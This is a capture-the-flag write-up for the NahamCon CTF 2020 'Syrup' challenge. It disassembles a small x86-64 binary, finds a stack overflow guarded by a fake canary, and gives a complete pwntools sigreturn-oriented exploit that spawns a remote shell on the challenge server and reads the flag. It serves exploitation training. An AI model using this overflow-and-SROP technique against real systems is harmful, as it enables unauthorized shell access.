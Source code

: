 # NahamCon CTF 2020

## Syrup

> 100
>
> Can you pwn me? 
>
> Connect here:</br>
> `nc jh2i.com 50036`</br>
>
> [`syrup`](syrup)

Tags: _pwn_ _x86-64_ _srop_ _bof_ _syscall_ _remote-shell_


## Summary

The title _Syrup_ is a pretty strong hint that this is an SROP challenge (that completely escaped me).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations in place.  However, with no libc and a small statically linked assembly binary, there's not a lot to work with ROP-wise.

    
### <strike>Decompile</strike> Disassemble with Ghidra 

There are four functions of interest:

```nasm
                     entry
00401082 55              PUSH       RBP
00401083 48 89 e5        MOV        RBP,RSP
00401086 b8 01 00        MOV        EAX,0x1
         00 00
0040108b bf 01 00        MOV        EDI,0x1
         00 00
00401090 48 be 00        MOV        RSI=>msg,msg = "Can you pwn me?\n"
         20 40 00
         00 00 00 00
0040109a ba 11 00        MOV        EDX,0x11
         00 00
0040109f 0f 05           SYSCALL
004010a1 e8 9c ff        CALL       fn1
         ff ff
004010a6 e9 68 ff        JMP        nope
         ff ff
```

`entry` just prints `Can you pwn me?` using the `write` system call, then calls `fn1` before jumping to `nope`.

```assembly
                     nope
00401013 b8 01 00        MOV        EAX,0x1
         00 00
00401018 bf 01 00        MOV        EDI,0x1
         00 00
0040101d 48 be 11        MOV        RSI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
00401027 ba 07 00        MOV        EDX,0x7
         00 00
0040102c 0f 05           SYSCALL
0040102e b8 3c 00        MOV        EAX,0x3c
         00 00
00401033 bf 00 00        MOV        EDI,0x0
         00 00
00401038 0f 05           SYSCALL
0040103a 2f              ??         2Fh    /
0040103b 62              ??         62h    b
0040103c 69              ??         69h    i
0040103d 6e              ??         6Eh    n
0040103e 2f              ??         2Fh    /
0040103f 73              ??         73h    s
00401040 68              ??         68h    h
00401041 00              ??         00h
```

`nope` just emits `Nope` and then exits using the `exit` syscall.

However, there's the string `/bin/sh\x00`.  Probably something we'll need.

```
                     fn1
00401042 55              PUSH       RBP
00401043 48 89 e5        MOV        RBP,RSP
00401046 b8 ad de        MOV        EAX,0xdead
         00 00
0040104b 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401051 50              PUSH       RAX
00401052 48 83 ed 08     SUB        RBP,0x8
00401056 48 81 ed        SUB        RBP,0x400
         00 04 00 00
0040105d b8 00 00        MOV        EAX,0x0
         00 00
00401062 bf 00 00        MOV        EDI,0x0
         00 00
00401067 48 89 ee        MOV        RSI,RBP
0040106a ba 00 08        MOV        EDX,0x800
         00 00
0040106f 0f 05           SYSCALL
00401071 58              POP        RAX
00401072 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401078 48 3d ad        CMP        RAX,0xdead
         de 00 00
0040107e 75 93           JNZ        nope
00401080 5d              POP        RBP
00401081 c3              RET
```

`fn1` puts `0xdead ^ 0xbeef` on the stack, allocates `0x400` bytes, then calls `read` to _read_ in up to `0x800` bytes from `stdin`.  This is the vulnerability.  However there's the "canary" check, and if that fails, then `nope`.  Otherwise it returns to `entry` and jumps to `nope`.

Clearly we have to take control of RIP with this buffer overflow.

```
                     fn2
00401000 55              PUSH       RBP
00401001 48 89 e5        MOV        RBP,RSP
00401004 58              POP        RAX
00401005 48 bf 11        MOV        RDI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
0040100f 0f 05           SYSCALL
00401011 5d              POP        RBP
00401012 c3              RET
```

`fn2` has no purpose other than to help us out.  It'll pop RAX and `syscall`.  With ROP, setting RAX and _returning_ to `POP RAX` to then get any syscall we want is easy enough, however, the challenge is setting all the other registers.

[Sigreturn Oriented Programming (SROP)](https://docs.pwntools.com/en/stable/rop/srop.html) solves that problem.

> _**sigreturn**() exists only to allow the implementation of signal handlers.  It should **never** be called directly. -- man 2 sigreturn_

lol


## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./syrup')
context.update(arch='amd64',os='linux')

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = next(binary.search(b'/bin/sh'))
frame.rsi = 0
frame.rdx = 0
frame.rip = next(binary.search(asm('syscall')))

payload  = 0x400 * b'A'
payload += p64(0xdead ^ 0xbeef)
```

Setup the stack frame to call `execve("/bin/sh",null,null)`.  The `0x400` + the "canary" payload gets to the saved base pointer.

There are at least two options (_clever_ and _not to clever_) to call `sigreturn`.

Clever:

```python
payload += p64(constants.SYS_rt_sigreturn)
payload += p64(binary.symbols['fn2'])
```

The clever way puts the `rt_sigreturn` syscall number in RBP.  Then overwrites the return address with the address of `fn2`.  `fn1` before `ret` will pop RBP, then `fn2` will push RDB, then pop RAX before the `syscall`.

> They really thought of everything. 

Not so clever:

```python
payload += p64(0x0)
payload += p64(0x00401004) # pop rax
payload += p64(constants.SYS_rt_sigreturn)
```

The other option is to just write anything to the saved base pointer in the stack, and then have the return address be the address of the `POP RAX` from `fn2`, then the syscall number.

In either case the generated stack frame needs to follow the overwritten return address:

```python
payload += bytes(frame)
```

Finally:

```python
#p = process(binary.path)
p = remote('jh2i.com', 50036)

p.recvuntil('Can you pwn me?')
p.sendline(payload)
p.interactive()
```

Just send it and get a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/nahamconctf2020/syrup/syrup'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to jh2i.com on port 50036: Done
[*] Switching to interactive mode

\x00$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
syrup
$ cat flag.txt
flag{Sr0ppin_t0_v1ct0Ry}
```

